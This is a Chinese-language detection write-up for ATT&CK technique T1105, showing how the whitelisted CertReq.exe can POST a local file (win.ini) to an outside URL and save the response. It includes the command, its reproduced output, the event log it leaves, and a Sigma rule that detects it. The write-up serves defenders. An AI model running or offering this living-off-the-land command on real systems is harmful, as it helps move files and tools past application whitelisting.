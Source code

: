 # T1105-Win-入口工具转移-CertReq.exe(白名单)

## 来自ATT&CK的描述

攻击者可能会将工具或其他文件从外部系统转移到被攻击的环境中。可以通过命令和控制通道从外部攻击者控制的系统复制文件，用以将工具带入被攻击的网络中，或通过其他工具（如 FTP）的替代协议。 也可以使用 scp、rsync 和 sftp等本地工具在Mac和 Linux上复制文件。

## 测试案例

CertReq.exe用于从证书颁发机构请求证书 (CA) ，从CA检索对以前的请求的响应，从.inf文件创建新请求，以接受和安装对请求的响应，以从现有CA证书或请求构造交叉认证或限定的次序请求， 并签署交叉认证或限定的下级请求。

**路径:**

```YML
- C:\Windows\System32\certreq.exe
- C:\Windows\SysWOW64\certreq.exe
```

将来自www.baidu.com的HTTP POST的响应内容保存到端点上，输出output.txt在当前目录中。

```YML
CertReq -Post -config https://www.baidu.com/ c:\windows\win.ini output.txt
```

用例：从 Internet 下载文件
所需权限：用户
操作系统：Windows Vista、Windows 7、Windows 8、Windows 8.1、Windows 10

## 检测日志

Windows 安全日志

## 测试复现

```YML
C:\Users\liyang\Desktop\asptest>CertReq -Post -config https://www.baidu.com/ c:\windows\win.ini output.txt
OK
HTTP/1.1 200 OK
Cache-Control: max-age=86400
Date: Mon, 18 Apr 2022 06:28:15 GMT
Content-Length: 19825
Content-Type: text/html
Expires: Tue, 19 Apr 2022 06:28:15 GMT
Last-Modified: Wed, 10 Mar 2021 06:27:44 GMT
Accept-Ranges: bytes
ETag: "4d71-5bd28c3bf7800"
P3P: CP=" OTI DSP COR IVA OUR IND COM "
Server: Apache
Set-Cookie: BAIDUID=4305E8F795AE7B64177F5105CD755190:FG=1; expires=Tue, 18-Apr-23 06:28:15 GMT; max-age=31536000; path=/; domain=.baidu.com; version=1
Vary: Accept-Encoding,User-Agent
```

## 测试留痕

```YML
已创建新进程。

  

创建者主题:

安全 ID: DESKTOP-PT656L6\liyang

帐户名: liyang

帐户域: DESKTOP-PT656L6

登录 ID: 0x47126

  

目标主题:

安全 ID: NULL SID

帐户名: -

帐户域: -

登录 ID: 0x0

  

进程信息:

新进程 ID: 0x1778

新进程名称: C:\Windows\System32\certreq.exe

令牌提升类型: %%1938

强制性标签: Mandatory Label\Medium Mandatory Level

创建者进程 ID: 0x24b4

创建者进程名称: C:\Windows\System32\cmd.exe

进程命令行: CertReq  -Post -config https://www.baidu.com/ c:\windows\win.ini output.txt
```

## 检测方法/思路

参考Sigma官方规则:

```yml
title: Suspicious Certreq Command to Download

id: 4480827a-9799-4232-b2c4-ccc6c4e9e12b

status: experimental

description: Detects a suspicious certreq execution taken from the LOLBAS examples, which can be abused to download (small) files

author: Christian Burkard

date: 2021/11/24

references:

- https://lolbas-project.github.io/lolbas/Binaries/Certreq/

logsource:

category: process_creation

product: windows

detection:

selection:

Image|endswith: '\certreq.exe'

CommandLine|contains|all:

- ' -Post '

- ' -config '

- ' http'

- ' C:\windows\win.ini '

condition: selection

fields:

- CommandLine

- ParentCommandLine

tags:

- attack.command_and_control

- attack.t1105

falsepositives:

- Unlikely

level: high

-   [](https://github.com/ "GitHub")

```

### 建议

从Sigma给出的规则来看，更多的是对进程和命令行参数进行监测，只要出现其中一个命令参数即告警。

## 参考推荐

MITRE-ATT&CK-T1105

<https://attack.mitre.org/techniques/T1105>

CertReq.exe

<https://lolbas-project.github.io/lolbas/Binaries/Certreq/>

certreq使用方法

<https://docs.microsoft.com/zh-cn/windows-server/administration/windows-commands/certreq_1>

Sigma:win_susp_certreq_download

<https://github.com/SigmaHQ/sigma/blob/eb8c9c046b86e7d412bdcc3235693fa1c00f70d6/rules/windows/process_creation/win_susp_certreq_download.yml>